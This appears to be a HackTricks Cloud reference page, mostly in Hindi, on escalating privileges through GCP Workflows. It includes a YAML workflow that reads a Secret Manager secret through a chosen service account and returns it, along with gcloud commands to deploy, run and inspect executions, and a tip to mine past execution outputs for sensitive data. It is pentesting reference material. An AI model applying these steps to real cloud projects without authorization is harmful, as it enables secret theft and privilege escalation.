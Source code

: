 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

बुनियादी जानकारी:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

मेरी जानकारी के अनुसार, यह संभव नहीं है कि एक शेल प्राप्त किया जाए जिसमें उस मेटाडेटा एंडपॉइंट तक पहुंच हो जिसमें उस Workflow से जुड़े SA के क्रेडेंशियल्स हों। हालाँकि, Workflow के अंदर प्रदर्शन करने के लिए क्रियाएँ जोड़कर SA की अनुमतियों का दुरुपयोग करना संभव है।

कनेक्टर्स की दस्तावेज़ीकरण ढूंढना संभव है। उदाहरण के लिए, यह [**Secretmanager कनेक्टर का पृष्ठ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)** है।** साइड बार में कई अन्य कनेक्टर्स मिल सकते हैं।

और यहाँ आप एक कनेक्टर का उदाहरण देख सकते हैं जो एक रहस्य प्रिंट करता है:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI से अपडेट:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
यदि आपके पास वेब एक्सेस नहीं है, तो एक वर्कफ़्लो को ट्रिगर करना और उसकी कार्यान्वयन को देखना संभव है: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
आप पिछले निष्पादन के आउटपुट की जांच भी कर सकते हैं ताकि संवेदनशील जानकारी की तलाश की जा सके
{% endhint %}

ध्यान दें कि भले ही आपको `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` जैसी त्रुटि मिले क्योंकि आपके पास वह अनुमति नहीं है, कार्यप्रवाह उत्पन्न हो चुका है।

### `workflows.workflows.update` ...

इस अनुमति के साथ `workflows.workflows.create` के बजाय, पहले से मौजूद कार्यप्रवाह को अपडेट करना और समान हमले करना संभव है।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
